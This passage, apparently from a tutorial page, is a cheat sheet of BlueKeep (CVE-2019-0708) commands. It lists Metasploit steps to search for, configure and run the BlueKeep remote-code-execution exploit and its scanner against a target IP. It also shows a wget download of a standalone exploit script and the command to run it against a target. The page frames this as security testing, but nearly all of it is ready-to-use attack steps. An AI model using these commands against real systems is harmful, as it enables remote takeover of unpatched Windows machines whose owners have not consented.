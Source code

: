    - **Explanation:** 
     - Runs the exploit against the target IP address.

#### **Summary of BlueKeep Commands**

| **Tool**                | **Command**                                  | **Description**                                 | **Example**                                      |
|-------------------------|----------------------------------------------|-------------------------------------------------|--------------------------------------------------|
| **Metasploit (Exploit)**| `search bluekeep`                            | Search for BlueKeep exploit module.             | `search bluekeep`                                |
|                         | `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce` | Use BlueKeep exploit module.                    | `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce` |
|                         | `show options`                              | Show options for the exploit.                   | `show options`                                   |
|                         | `set RHOSTS <target_ip>`                    | Set target IP address.                          | `set RHOSTS 192.168.1.100`                       |
|                         | `run`                                       | Execute the exploit.                            | `run`                                            |
| **Metasploit (Auxiliary)** | `search bluekeep`                          | Search for BlueKeep auxiliary module.           | `search bluekeep`                                |
|                         | `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` | Use BlueKeep auxiliary scanner module.          | `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` |
|                         | `show options`                              | Show options for the scanner.                   | `show options`                                   |
|                         | `set RHOSTS <target_ip>`                    | Set target IP address.                          | `set RHOSTS 192.168.1.100`                       |
|                         | `run`                                       | Execute the scanner.                            | `run`                                            |
| **Standalone Exploit**  | `wget https://example.com/bluekeep_exploit.py` | Download the BlueKeep exploit script.           | `wget https://github.com/yourrepo/bluekeep_exploit.py` |
|                         | `python bluekeep_exploit.py -t <target_ip>` | Run the BlueKeep exploit script.                | `python bluekeep_exploit.py -t 192.168.1.100`   |

---

The BlueKeep exploit is a critical tool for testing and securing systems vulnerable to CVE-2019-0708. Using tools like Metasploit and standalone scripts can help identify and mitigate the risks associated with this vulnerability.